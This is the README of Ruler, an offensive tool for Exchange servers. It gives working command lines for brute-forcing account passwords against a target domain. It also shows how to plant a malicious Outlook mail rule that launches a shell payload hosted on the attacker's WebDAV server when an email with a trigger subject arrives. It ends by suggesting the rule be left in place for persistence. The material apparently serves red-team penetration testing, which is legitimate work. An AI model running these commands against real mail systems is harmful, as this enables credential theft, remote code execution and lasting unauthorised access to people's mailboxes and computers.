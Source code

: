 # Introduction

Ruler is a tool that allows you to interact with Exchange servers through the MAPI/HTTP protocol. The main aim is abuse the client-side Outlook mail rules as described in: [Silentbreak blog]

Silentbreak did a great job with this attack and it has served us well. The only downside has been that it takes time to get setup. Cloning a mailbox into a new instance of Outlook can be time consuming. And then there is all the clicking it takes to get a mailrule created. Wouldn't the command line version of this attack be great? And that is how Ruler was born.

The full low-down on how Ruler was implemented and some background regarding MAPI can be found in our blog post: [SensePost blog]

## What does it do?

Ruler has multiple functions and more are planned. These include

* Enumerate valid users
* View currently configured mail rules
* Create new malicious mail rules
* Delete mail rules

Ruler attempts to be semi-smart when it comes to interacting with Exchange and uses the Autodiscover service (just as your Outlook client would) to discover the relevant information.

# Getting the Code

Ruler is written in Go so you'll need to have Go setup to run/build the project
The first step as always is to clone the repo :

```
git clone https://github.com/sensepost/ruler.git
```
Or you can get it through Go:
```
go get https://github.com/sensepost/ruler
```

You can now run the app through ```go run``` if you wish:
```
go run ruler.go -h
```

Or build it (the prefered option):

```
go build
```

# Interacting with Exchange

It is important to note that for now this only works with the newer MAPI/HTTP used for OutlookAnywhere. The older RPC/HTTP which MAPI replaces is not supported and may possibly not be supported.

As mentioned before there are multiple functions to Ruler. In most cases you'll want to first find a set of valid credentials. Do this however you wish, Phishing, Wifi+Mana or brute-force.

## Brute-force for credentials

If you go the brute-force route, Ruler is your friend. It has a built-in brute-forcer which does a semi-decent job of finding creds.

```
./ruler -domain targetdomain.com -brute -usernames /path/to/user.txt -passwords /path/to/passwords.txt
```

There are a few other flags that work with ```-brute```
These are:
* -stop _//stop on the first valid username:password combo_
* -delay _//how long to wait between multiple password guesses_
* -attempts _//how many attempts before we delay (attempts per user)_
* -insecure _//if the Exchange server has a bad SSL cerificate_
* -v      _//be verbose and show failed attempts_

## Display existing rules / verify account

Once you have a set of credentials you can target the user's mailbox. Here you'll need to know their email address (address book searching is in the planned extension).

```
./ruler -domain targetdomain.com -email user@targetdomain.com -user username -pass password -display
```

## Delete existing rules (clean up after  yourself)
To delete rules, use the ruleId displayed next to the rule name (000000df1)

```
./ruler -domain targetdomain.com -email user@targetdomain.com -user username -pass password -delete 000000df1
```

# Popping a shell

Now the fun part. Your initial setup is the same as outlined in the [Silentbreak blog], setup your webdav server to host your payload.

To create the new rule user Ruler and:

```
./ruler -domain targetdomain.com -email user@targetdomain.com -user username -pass password -loc \\\\yourserver\\webdav\\shell.bat -trigger "pop a shell" -rule maliciousrule
```

The various parts:
* `-loc` _this is the location of your remote shell (or c:/Windows/system32/calc.exe)_
* `-trigger` _the string within the subject you want to trigger the rule_
* `-rule` _a name for your rule_

You should now be able to send an email to your target with the trigger string in the subject line. From testing the mailrule is synchronised across nearly instantaniously, so in most cases you should be able to get a shell almost immediatly, assuming outlook is open and connected.

Enjoy your shell and don't forget to clean-up after yourself by deleting the rule (or leave it for persistence).

[Silentbreak blog]: <https://silentbreaksecurity.com/malicious-outlook-rules/>
[SensePost blog]: <https://sensepost.com/blog/>
